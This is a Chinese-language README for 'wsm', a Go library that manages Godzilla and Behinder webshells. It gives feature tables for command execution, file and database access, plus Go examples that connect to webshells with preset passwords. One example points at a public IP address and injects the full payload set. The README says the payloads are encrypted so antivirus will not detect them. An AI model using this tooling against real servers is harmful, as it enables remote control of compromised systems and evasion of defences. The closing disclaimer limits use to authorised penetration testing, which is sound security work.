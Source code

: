 # wsm

有时候不希望  PoC/Exp 止步于 getshell，还想着自动化进行某些操作，因此有了这个库。通过 wsm 直接管理您的哥斯拉和冰蝎 webshell

## 功能列表

#### 哥斯拉

| 脚本类型  | 支持的加密类型    | 功能支持                                       |
| --------- | ----------------- | ---------------------------------------------- |
| asp       | XOR_BS6、XOR_RAW  | 存活验证、基本信息、命令执行、文件、数据库操作 |
| jsp、jspx | AES_BS64、AES_RAW | 存活验证、基本信息、命令执行、文件、数据库操作 |
| aspx      | AES_BS64、AES_RAW | 存活验证、基本信息、命令执行、文件、数据库操作 |
| php       | XOR_BS6、XOR_RAW  | 存活验证、基本信息、命令执行、文件、数据库操作 |

#### 冰蝎

| 脚本类型  | 支持的加密类型 | 功能支持                                       |
| --------- | -------------- | ---------------------------------------------- |
| asp       | XOR            | 存活验证、基本信息、命令执行、文件、数据库操作 |
| jsp、jspx | AES            | 存活验证、基本信息、命令执行、文件、数据库操作 |
| aspx      | AES            | 存活验证、基本信息、命令执行、文件、数据库操作 |
| php       | XOR、AES       | 存活验证、基本信息、命令执行、文件、数据库操作 |

## 例子

##### 冰蝎

```go
package main

import (
	"fmt"
	"github.com/xiecat/wsm"
	"github.com/xiecat/wsm/lib/shell"
	"github.com/xiecat/wsm/lib/shell/behinder"
	"log"
)

func main() {
	info := &wsm.BehinderInfo{
		BaseShell: wsm.BaseShell{
			Url:      "http://127.0.0.1:8080/bx.jsp",
			Password: "rebeyond",
			Script:   shell.JavaScript,
			Proxy:    "http://127.0.0.1:9999",
			Headers:  nil,
		}}
	bx, err := wsm.NewBehinder(info)
	if err != nil {
		log.Println(err)
	}
	// 验证存活
	i, err := bx.Ping()
	if err != nil {
		log.Println(err)
	}
	fmt.Println(i)
}
```

##### 哥斯拉

```go
package main

import (
	"fmt"
	"github.com/xiecat/wsm"
	"github.com/xiecat/wsm/lib/charset"
	"github.com/xiecat/wsm/lib/shell"
	"github.com/xiecat/wsm/lib/shell/godzilla"
	"log"
)

func main() {
	info := &wsm.GodzillaInfo{
		BaseShell: wsm.BaseShell{
			Url:      "http://139.196.175.86:8080/bs64.jsp",
			Password: "pass",
			Script:   shell.JavaScript,
			Proxy:    "http://127.0.0.1:9999",
		},
		Key:      "key",
		Crypto:   godzilla.JAVA_AES_BASE64,
		Encoding: charset.UTF8CharSet,
	}
	g, err := wsm.NewGodzillaInfo(info)
	if err != nil {
		log.Println(err)
	}
	// 注入全部的 payload
	err = g.InjectPayload()
	if err != nil {
		log.Println(err)
	}

	isAlive, err := g.Ping()
	if err != nil {
		log.Println(err)
	}
	fmt.Println(isAlive)
}
```

更多例子可以查看  [**examples**](https://github.com/xiecat/wsm/tree/main/examples)

## 流量解密

支持流量解密

[**examples**](https://github.com/xiecat/wsm/tree/main/examples/decrypt_packets)

## 说明

*[payloads](https://github.com/xiecat/wsm/tree/main/lib/payloads)  通过静态资源的方式使用，同时对原始的 payload文件进行了 gzip 压缩后再 aes 加密，这样做是为了拉取该库时，不被杀软报毒*

## 感谢

[Behinder](https://github.com/rebeyond/Behinder)

[Godzilla](https://github.com/BeichenDream/Godzilla)

[As-Exploits](https://github.com/yzddmr6/As-Exploits)

[每篇文章](https://yzddmr6.com/)

## 注意事项

本库仅供合法的渗透测试以及爱好者参考学习，请勿用于非法用途，否则自行承担相关责任。
